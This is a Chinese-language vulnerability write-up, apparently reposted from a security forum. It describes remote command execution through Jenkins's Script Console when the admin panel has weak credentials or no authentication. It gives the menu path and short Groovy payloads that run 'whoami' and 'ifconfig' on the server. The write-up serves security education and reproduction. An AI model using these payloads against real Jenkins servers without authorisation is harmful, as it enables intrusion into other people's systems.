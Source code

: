 # Jenkins 功能未授权访问导致的远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2987](https://www.zhihuifly.com/t/topic/2987)

# Jenkins 功能未授权访问导致的远程命令执行漏洞

## 一、漏洞简介

Jenkins管理登陆之后，后台”系统管理”功能，有个”脚本命令行的”功能，它的作用是执行用于管理或故障探测或诊断的任意脚本命令，利用该功能，可以执行系统命令，该功能实际上Jenkins正常的功能，由于很多管理账号使用了弱口令，或者管理后台存在未授权访问，导致该功能会对Jenkins系统服务器产生比较严重的影响和危害。

## 二、漏洞影响

## 三、复现过程

找到“系统管理”——“脚本命令行”。

![image](img/4c44aa492284a0a1168d735ae152d2cb.png)

![image](img/5ccfc25436827c277fa36d533dfab159.png)

输入任意的Groovy脚本并在服务器上执行它。对于故障排除和诊断很有用。使用’println’命令查看输出（如果使用System.out，它将输出到服务器的标准输出，很难看到。）示例：

```
println(Jenkins.instance.pluginManager.plugins) 
```

在脚本命令行中输入下面的语句，即可执行相应的命令：

```
println "whoami".execute().text 
```

![image](img/771481d41d471ea2221290c2e365e3cf.png)

```
println "ifconfig".execute().text 
```

![image](img/bcd27e5fe0b5ebf38ae9d55bfe5f839e.png)